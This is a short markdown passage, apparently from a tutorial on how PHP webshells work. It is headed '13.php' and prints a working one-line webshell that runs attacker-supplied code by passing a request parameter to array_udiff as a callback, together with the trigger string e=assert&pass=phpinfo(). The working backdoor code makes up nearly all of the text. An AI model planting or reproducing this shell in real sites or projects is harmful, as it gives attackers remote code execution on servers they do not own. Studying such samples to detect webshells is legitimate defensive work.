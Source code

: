![](webshell原理.assets/12.png)

#### 13.php

```php
# password:e=assert&pass=phpinfo()
```

```php
<?php
	$e = $_REQUEST['e'];
	$arr = array($_POST['pass']);
	$arr2 = array(1);
	array_udiff($arr, $arr2, $e);
?>
```
